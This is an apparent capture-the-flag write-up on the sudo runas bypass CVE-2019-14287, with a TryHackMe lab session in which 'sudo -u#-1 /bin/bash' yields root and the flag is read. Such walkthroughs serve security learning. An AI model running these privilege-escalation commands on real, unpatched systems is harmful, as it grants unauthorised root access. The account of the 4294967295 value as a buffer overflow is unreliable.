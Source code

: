 ```yaml
---
title: Sudo - Security Bypass (CVE:2019-14287)
author: Dimitrios Tsarouchas
date: 2021-01-23 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, CVE-2019-14287]
pin: true
featured-image: /assets/img/penguin.jpg
featured-image-alt: Linux
---
```


![Kenobi](https://cdn.pixabay.com/photo/2013/07/13/12/31/penguin-159784_960_720.png)

## Introduction

In this post we are going to exploit a vulnerability found in the `sudo` program by Joe Vennix in 2019. This vulnerability has been patched in newer versions of Linux but it may still be found in versions 1.8.27 and before. In the practical part we are going to use a machine from the TryHackMe room [Sudo Security Bypass](https://tryhackme.com/room/sudovulnsbypass){:target="_blank"}.  

### What is sudo?

In Linux operating systems `sudo` (or Super User DO) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy ([sudo.ws](https://www.sudo.ws/man/1.8.3/sudo.man.html){:target="_blank"}). A user can automatically inherit the permissons of the binary's owner (root) if will execute the binary with setuid permissions. Setuid permits users to run certain programs with esclated privilege ([computerhope.com](https://www.computerhope.com/jargon/s/setuid.htm#:~:text=Setuid%2C%20which%20stands%20for%20set,certain%20programs%20with%20escalated%20privileges.){:target="_blank"}).

## CVE-2019-14287 

The [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287){:target="_blank"} vulnerability gives to a local user or a program the ability  to execute commands as a superuser. 

In a Linux system a user can execute programs as other users by specifying their **UID** using the command `sudo -u#id <command>`. 

Even though root access from a local user is prohibited in the `/etc/sudoers` configuration file, Joe Vennix managed to bypass it by finding a flaw in the previous command. 

#### Lets understand it with the following example

We have a local user called Bob and we want to grant extra permissions to him and let him execute a program as if he is any other user but not the root user.

We will do this by configuring the `/etc/sudoers` file and adding the following line:
```terminal
Bob ALL=(ALL:!root) NOPASSWD: ALL
```
Adding the previous line to sudoers file will let Bob exexute any command as another user and prevent him from executing commands as the superuser (root). In some vulnerable versions of `sudo` we can bypass this restriction and execute commands with root privileges. By entering the user id equal to 0 (root UID) in the previous command it wouldn't work because we are not allowed to execute commands as the root user [exploit-db.com](https://www.exploit-db.com/exploits/47502){:target="_blank"}. 

According to Joe Vennix's findings there are two values that Sudo incorrectly read them as being 0 which is the root UID:

- -1
- 4294967295

Even though the sudoers file has been configured to restrict us from executing commands as root, by passing any of these two values in the user ID will give us root privileges.

```terminal
sudo -u#-1 <command>

or

sudo -u#4294967295 <command>
```

**There are two aspects of this vulnerability:**


When a UID of -1 is provided:
The binary interprets this as a request for no change in the user id, but since sudo is already executing with root privileges, it gives the user root access upon execution.

When a UID of 4294967295 is provided:
This large number causes the buffer for the sudo binary to be overflowed, since the defined range has its maximum limit for 10000; the buffer overflows and sudo processes the given integer as a request for no change in the user id, but since sudo executes with root permissions, after execution the system call gives root access.

Source: [datacellsolutions.com](https://datacellsolutions.com/2019/11/29/the-sudo-security-bypass-bug/){:target="_blank"}

## Exploting sudo

We will SSH into the ThryHackMe machine on port 2222 and try to escalate our privileges from a normal user to the root.

The credentials are already provided below:

- Username: tryhackme
- Password: tryhackme

```terminal
# ssh -p 2222 tryhackme@10.10.47.156                                       
The authenticity of host '[10.10.47.156]:2222 ([10.10.47.156]:2222)' can't be established.
ECDSA key fingerprint is SHA256:p8qxMPPV/x0AsbdLybMXoOPRBUR07uTTrEzgrZWuHKU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '[10.10.47.156]:2222' (ECDSA) to the list of known hosts.
tryhackme@10.10.47.156's password: tryhackme 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ whoami
tryhackme
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash      

tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
root@sudo-privesc:~# pwd
/home/tryhackme
root@sudo-privesc:~# cat /root/root.txt
THM{l33t_s3cur1ty_bypass}

```

When we first connected to the remote machine and used the `whoami` command we found that we are the **tryhackme** user. 


Then we checked what commands we are allowed to run with sudo using the `sudo -l` command. 

As we can see above we are not allowed to run the `/bin/bash` file as the root user. The system administrator has configured the `/etc/sudoers` file with the instruction `(ALL, !root) NOPASSWD: /bin/bash` to prevent us from executing `/bin/bash` as superusers. 


Unfortunatelly for him the sudo version this machine is using is vulnerable and we are going to exploit it to get root privileges.
We will become root users using the `sudo -u#-1 /bin/bash` command. 


After the successfull execution of the command, using once more the `whoami` we can see that the name of the user is root, and we can also see that the shell has changed from `tryhackme@sudo-privesc:~$` to `root@sudo-privesc:~#`.

In order to find the **root.txt** flag which is stored under the `/root` folder we type `cat /root/root.txt` and since we are the root user we get the flag. 




